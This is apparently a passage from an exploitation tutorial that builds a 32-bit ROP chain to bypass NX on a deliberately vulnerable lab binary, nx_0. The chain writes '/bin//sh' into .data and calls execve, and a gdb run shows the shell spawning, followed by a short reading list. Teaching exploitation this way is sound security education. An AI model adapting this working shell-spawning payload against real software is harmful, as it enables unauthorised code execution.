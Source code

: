     from struct import pack
    
    p = ''
    p += pack('<I', 0x080737cb) # pop edx ; ret
    p += pack('<I', 0x080df060) # @ .data
    p += pack('<I', 0x080ad7c6) # pop eax ; ret
    p += '/bin'
    p += pack('<I', 0x08057c45) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080737cb) # pop edx ; ret
    p += pack('<I', 0x080df064) # @ .data + 4
    p += pack('<I', 0x080ad7c6) # pop eax ; ret
    p += '//sh'
    p += pack('<I', 0x08057c45) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080737cb) # pop edx ; ret
    p += pack('<I', 0x080df068) # @ .data + 8
    p += pack('<I', 0x08057200) # xor eax, eax ; ret
    p += pack('<I', 0x08057c45) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x08049021) # pop ebx ; ret
    p += pack('<I', 0x080df060) # @ .data
    p += pack('<I', 0x080737f2) # pop ecx ; pop ebx ; ret
    p += pack('<I', 0x080df068) # @ .data + 8
    p += pack('<I', 0x080df060) # padding without overwrite ebx
    p += pack('<I', 0x080737cb) # pop edx ; ret
    p += pack('<I', 0x080df068) # @ .data + 8
    p += pack('<I', 0x08057200) # xor eax, eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x08080c6a) # inc eax ; ret
    p += pack('<I', 0x0804a533) # int 0x80
    
    payload="A"*148+p
    print payload
Test it

    root@local:~/Desktop/NX# python exploit_0.py > payload_1.txt
    root@local:~/Desktop/NX# cat payload_1.txt | ./nx_0
If you are not clear , try with gdb.

    root@local:~/Desktop/NX# gdb -q ./nx_0
    Reading symbols from ./nx_0...(no debugging symbols found)...done.
    gdb-peda$ r < payload_1.txt
    Starting program: /root/Desktop/NX/nx_0 < payload_1.txt
    This is a big vulnerable example!
    I can print many things: deadbeef, Test String, 42
    Writing to STDOUT
    Reading from STDIN
    process 19957 is executing new program: /bin/dash
    [Inferior 1 (process 19957) exited normally]
    Warning: not running or target is remote
We can see our payload have been spawned a new shell.

**Inspiration & Reading List**

http://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Paper%20Payload%20already%20inside%20data%20reuse%20for%20ROP%20exploits.pdf


https://github.com/nnamon/linux-exploitation-course/blob/master/lessons/6_bypass_nx_rop/lessonplan.md 
